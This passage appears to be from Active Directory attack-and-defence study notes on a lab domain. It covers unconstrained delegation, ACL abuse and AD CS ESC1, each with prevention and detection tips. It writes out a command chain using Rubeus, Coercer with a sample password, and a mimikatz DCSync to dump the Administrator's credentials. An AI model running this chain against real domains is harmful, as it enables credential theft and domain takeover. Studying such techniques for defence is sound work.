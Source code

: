 - Path
  - Force DC to connect to machine set for Unconstrained Delegation
```
# Identify for UD
Get-NetComputer -Unconstrained 

# Monitor new logons
Rubeus.exe monitor /interval:1

# IP of Unconstrained + coerce toward monitor
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

# Use ticket for authentication + dcsync
rubeus.exe ptt /ticket:hash
\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

- Prevention
  - 3rd party RPC firewall
  - Block DC from connectin to outbound 139/445

- Detection
  - Check outbout connection to 139/445

### Object ACLs
- Goal
  - modify access control list

- Path
  - sharpound -c ALL + bloodhound
  - Search rights from pivot
    - full right to user
    - full control over computer

- Prevention
  - do not assign privileges
  - no modification of object by other users

- Detection
  - 4738 (account changed), 4724 (password change)

- Honeypot:
  - assign high ACL to user + fake password
  - account that can be modified by many users
- 
### PKI - ESC1
- Goal
  - [ESC](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
  - get certificate
  - Via No Issuance Reqirements + Enrollable Client Authentication/Smart Card Login OID templates + CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT
  - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT: any user can request as any user
  - No manager approval
  - Authentication
